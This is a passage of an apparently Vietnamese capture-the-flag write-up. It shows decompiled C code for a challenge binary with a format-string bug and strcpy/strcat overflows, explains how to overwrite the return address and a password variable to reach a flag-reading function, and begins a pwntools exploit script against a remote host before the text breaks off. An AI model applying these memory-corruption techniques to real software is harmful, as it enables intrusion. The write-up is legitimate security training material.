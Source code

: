 ```c
    {
      printf("> ");
      if ( (unsigned int)__isoc99_scanf("%d%*c", &v6) != 1 )
        return 1;
      if ( v6 != 3 )
        break;
      if ( s )
      {
        puts("You only have one chance to print string");
      }
      else
      {
        printf(v5);
        s = 1;
      }
    }
    if ( v6 > 3 )
      break;
    if ( v6 == 1 )
    {
      get_data();
      strcpy(v5, g_buf);
    }
    else
    {
      if ( v6 != 2 )
        return 0;
      get_data();
      strcat(v5, g_buf);
    }
  }
  return 0;
}
```


- ở đây còn có 1 hàm quan trọng để lấy flag.txt

đoạn code này khá ý đồ :))  , nếu đoạn check nằm ở trên đoạn open thì ta chỉ việc overwrite ```ret_address``` nhảy đến open() luôn là xong , tuy nhiên thì ta cần phải overwrite dữ liệu của ```pwd``` trước để thõa yêu cầu của bài và option1 sẽ làm điều này 

![image](https://hackmd.io/_uploads/ryv8T8-vJe.png)

script 

```python
#!/usr/bin/python3


from pwn import *

context.binary = exe = ELF('./chall',checksec=False)


p = remote('61.14.233.78',1400)

change = 0x00000000004041C0

def strcpy(data):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'data: ',data)

def strcat(data):
    p.sendlineafter(b'> ',b'2')
```